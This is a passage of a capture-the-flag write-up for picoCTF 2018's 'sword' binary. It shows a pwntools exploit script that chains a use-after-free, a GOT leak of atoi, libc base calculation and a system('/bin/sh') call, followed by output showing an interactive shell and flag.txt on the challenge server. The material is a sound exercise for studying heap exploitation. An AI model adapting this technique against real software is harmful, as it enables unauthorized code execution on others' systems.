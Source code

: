 ```python
    p.sendlineafter("What's the length of the sword name?", "300")
    log.info("Object: " + i + " is free")

def break_heap():
    p = remote('2018shell2.picoctf.com', 43469)
    ''' Methodology:
        1). Use after free overwrite A->name with got entry of atoi
        2). Read A->name for atoi@got
        3). Use atoi@got to get libc base to find system address
        4). UAF exploit with system address

    '''

    A = alloc(p)
    B = alloc(p)
    C = alloc(p)
    D = alloc(p)

    fake_free(p, A)
    atoi_plt = struct.pack("L", 0x602078)
    hoo = struct.pack("L", 0x400b9d)
    harden(p, B, "24", "\x08"+"\x00"*7+atoi_plt+hoo)

    base = int(leak_libc(p, A), 16) - 0x36e80
    sys = base + 0x45390
    sh = base + 0x18CD57
    log.info("libc base: " + hex(base))
    log.info("system@got: " + hex(sys))
    log.info("/bin/sh: " + hex(sh))
    fake_free(p, C)
    harden(p, D, "24", "\x07"+"\x00"*7+struct.pack("L", sh)+struct.pack("L", sys))
    use_func(p, C)
    #gdb.attach(target=p, exe="./sword")


    p.interactive()


break_heap()
```

Executing the exploit:
```bash
[+] Opening connection to 2018shell2.picoctf.com on port 43469: Done
[*] Alloc'd: 0
[*] Alloc'd: 1
[*] Alloc'd: 2
[*] Alloc'd: 3
[*] Object: 0 is free
[*]
    I use sword \x80\x9eT\x1e�.....
[*] libc base: 0x7fc11e513000
[*] system@got: 0x7fc11e558390
[*] /bin/sh: 0x7fc11e69fd57
[*] Object: 2 is free
[*] Switching to interactive mode

$ id
uid=1476(sword_0) gid=1477(sword_0) groups=1477(sword_0)
$ ls
flag.txt
libc.so.6
sword
sword.c
```